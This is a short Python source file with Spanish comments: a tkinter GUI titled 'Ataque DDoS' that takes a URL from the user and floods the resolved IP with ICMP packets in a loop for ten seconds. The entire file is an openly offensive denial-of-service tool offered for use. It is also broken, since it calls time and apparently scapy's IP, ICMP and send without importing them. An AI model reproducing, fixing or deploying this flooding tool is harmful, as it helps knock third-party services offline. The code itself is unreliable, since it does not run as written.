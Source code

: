 import tkinter as tk
from tkinter import messagebox
import socket
import threading

def ddos_attack(url, duration):
    try:
        target_ip = socket.gethostbyname(url)
        messagebox.showinfo("Info", f"Iniciando ataque DDoS a {target_ip}")
        end_time = time.time() + duration
        while time.time() < end_time:
            packet = IP(dst=target_ip) / ICMP()
            send(packet, verbose=0)
    except Exception as e:
        messagebox.showerror("Error", f"Ocurrió un error: {e}")

def on_attack_button_click():
    url = url_entry.get()
    if url:
        duration = 10  # Duración del ataque en segundos
        attack_thread = threading.Thread(target=ddos_attack, args=(url, duration))
        attack_thread.start()
    else:
        messagebox.showwarning("Advertencia", "Por favor, ingresa una URL válida.")

# Crear la ventana principal
root = tk.Tk()
root.title("Ataque DDoS")

# Etiqueta para solicitar la URL
url_label = tk.Label(root, text="Ingresa la URL:")
url_label.pack(pady=10)

# Campo de entrada para la URL
url_entry = tk.Entry(root, width=50)
url_entry.pack(pady=5)

# Botón para iniciar el ataque
attack_button = tk.Button(root, text="Attackar", command=on_attack_button_click)
attack_button.pack(pady=20)

# Iniciar el bucle principal de la interfaz gráfica
root.mainloop()